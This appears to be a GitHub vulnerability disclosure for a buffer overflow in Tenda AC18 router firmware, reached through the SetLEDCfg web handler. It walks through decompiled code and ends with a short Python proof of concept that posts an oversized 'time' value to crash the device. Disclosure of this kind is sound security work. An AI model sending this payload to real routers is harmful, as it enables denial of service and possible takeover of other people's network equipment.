 # Shenzhen Jixiang Tengda Technology Co., Ltd. AC18 has a Buffer Overflow vulnerability

**Vulnerability URL**: [http://192.168.198.76/goform/SetLEDCfg](http://192.168.198.76/goform/SetLEDCfg)

**Firmware Download Link:** [https://www.tenda.com.cn/material/show/2683](https://www.tenda.com.cn/material/show/2683)

## Vulnerability Analysis
The Tenda AC18_V15.03.05.19(6318) firmware has a buffer overflow vulnerability in the `formsetschedled` function

![Image 1](https://github.com/zezhifu1/cve_report/blob/main/AC18/image/formSetSchedLed1.png)

This function accepts `time` from a1 via a POST request. Then, at lines 40 and 41, it calls the `strtok` function twice to extract parts of `s`. At line 44, it passes the extracted results to the `mib2utc` function without any checks. If the input parameter is too large, it will cause the buffer to overflow, which can lead to denial of service or remote code execution.  
Cross-referenced location: from the `formSetSchedLed` function, routed to `SetLEDCfg`, at line 52.

![Image 3](https://github.com/zezhifu1/cve_report/blob/main/AC18/image/formSetSchedLed2.png)

Further cross-referenced.

![Image 4](https://github.com/zezhifu1/cve_report/blob/main/AC18/image/formSetSchedLed3.png)

It can be determined that the vulnerability occurs at the page path `goform/SetLEDCfg`.

## payload
```python
from pwn import *
import requests
url = "http://192.168.198.76/goform/SetLEDCfg"
payload = 1000 * b"1" + b":30-06:30"
response = requests.post(url, data={"time" : payload})
```

# reproduce
![Image 5](https://github.com/zezhifu1/cve_report/blob/main/AC18/image/formSetSchedLed4.png)

![Image 6](https://github.com/zezhifu1/cve_report/blob/main/AC18/image/formSetSchedLed5.png)

![Image 7](https://github.com/zezhifu1/cve_report/blob/main/AC18/image/formSetSchedLed6.png)
